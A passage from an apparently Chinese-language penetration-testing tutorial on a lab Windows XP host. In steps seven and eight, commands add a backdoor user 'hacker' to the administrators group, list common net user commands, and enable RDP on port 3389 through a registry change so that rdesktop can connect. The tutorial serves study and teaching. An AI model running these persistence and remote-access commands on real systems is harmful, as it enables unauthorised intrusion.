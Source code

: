 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNxKL4v0QicIITxzpnNsvqpPUCuo87OrKk4lPWpqrmpC6vv16WLHrrhbw/640?wx_fmt=png)

显示结果下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNIZdrXKyEe6ia9x6OFf0JxhSAibhj38nAKtlQmUEiau1fibUc2daYQIseaA/640?wx_fmt=png)

第七步，对目标 XP 主机进行深度提权。

```
# 增加普通用户
net user hacker 123456 /add 
# 提升管理员权限
net localgroup administrators hacker /add
```

Windows DOM 用户常用命令如下：

*   net user abcd 1234 /add  
    新建一个用户名为 abcd，密码为 1234 的帐户，默认为 user 组成员
    
*   net user abcd /del  
    将用户名为 abcd 的用户删除
    
*   net user abcd /active:no  
    将用户名为 abcd 的用户禁用
    
*   net user abcd /active:yes  
    激活用户名为 abcd 的用户
    
*   net user abcd  
    查看用户名为 abcd 的用户的情况
    
*   net localgroup administrators abcd /add  
    将 abcd 账户给予管理员权限
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNTDRCoiaAzk4BbDIxjzkbhZc1EUvlmE0DYbKZdT7KYiaMAFQCOWDgB7ibg/640?wx_fmt=png)

此时被攻击的主机新增 “hacker” 管理员如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNicbnCxVOVJ0ztjIqLLBeSTpSBuITw5licibS9EoFIOsWgzFXxLfPsbzRA/640?wx_fmt=png)

第八步，开启远程连接 3389 端口，并调用 rdesktop 命令进行远程操作。

```
# 开启远程连接
echo reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f > C:\WINDOWS\system32\3389.bat && call 3389.bat
# 查看网络端口
netstat -an
# 远程连接
rdesktop 192.168.44.135
```

首先查看端口，发现目标主机 Windows XP 并未开启 3389 端口。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNV43fUUjbZm2shn3L9icicAATpf59xRJd4QevcdEzMRfXkSoWdzIyDAmQ/640?wx_fmt=png)
